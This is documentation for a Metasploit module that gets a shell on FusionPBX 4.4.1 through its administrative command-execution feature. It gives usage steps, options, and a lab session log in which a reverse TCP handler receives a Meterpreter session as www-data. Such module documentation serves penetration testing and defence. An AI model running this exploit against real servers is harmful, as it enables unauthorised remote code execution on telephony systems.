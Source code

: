 ## Description

  This module uses administrative functionality available in FusionPBX
  to gain a shell.

  The Command section of the application permits users with `exec_view`
  permissions, or superadmin permissions, to execute arbitrary system
  commands, or arbitrary PHP code, as the web server user.


## Vulnerable Software

  This module has been tested successfully on FusionPBX version
  4.4.1 on Ubuntu 19.04 (x64).

  Software:

  * https://www.fusionpbx.com/download
  * https://github.com/fusionpbx/fusionpbx/releases


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/fusionpbx_exec_cmd_exec`
  3. Do: `set rhosts <IP>`
  4. Do: `set username <username>` (default: `admin`)
  5. Do: `set password <password>`
  6. Do: `run`
  7. You should get a new session


## Options

  **TARGETURI**

  The base path to FusionPBX (default: `/`)

  **USERNAME**

  The username for FusionPBX (default: `admin`)

  **PASSWORD**

  The password for FusionPBX


## Scenarios

  ```
  msf > use exploit/unix/webapp/fusionpbx_exec_cmd_exec 
  msf exploit(unix/webapp/fusionpbx_exec_cmd_exec) > set rhosts 172.16.191.214
  rhosts => 172.16.191.214
  msf exploit(unix/webapp/fusionpbx_exec_cmd_exec) > set username admin
  username => admin
  msf exploit(unix/webapp/fusionpbx_exec_cmd_exec) > set password PXRtwZqSkvToC4gc
  password => PXRtwZqSkvToC4gc
  msf exploit(unix/webapp/fusionpbx_exec_cmd_exec) > set lhost 172.16.191.165 
  lhost => 172.16.191.165
  msf exploit(unix/webapp/fusionpbx_exec_cmd_exec) > show targets

  Exploit targets:

     Id  Name
     --  ----
     0   Automatic (PHP In-Memory)
     1   Automatic (Unix In-Memory)
     2   Automatic (Linux Dropper)


  msf exploit(unix/webapp/fusionpbx_exec_cmd_exec) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] Authenticated as user 'admin'
  [*] Sending payload (1115 bytes) ...
  [*] Sending stage (38288 bytes) to 172.16.191.214
  [*] Meterpreter session 1 opened (172.16.191.165:4444 -> 172.16.191.214:60772) at 2019-11-01 19:25:43 -0400

  meterpreter > getuid
  Server username: www-data (33)
  meterpreter > 
  ```

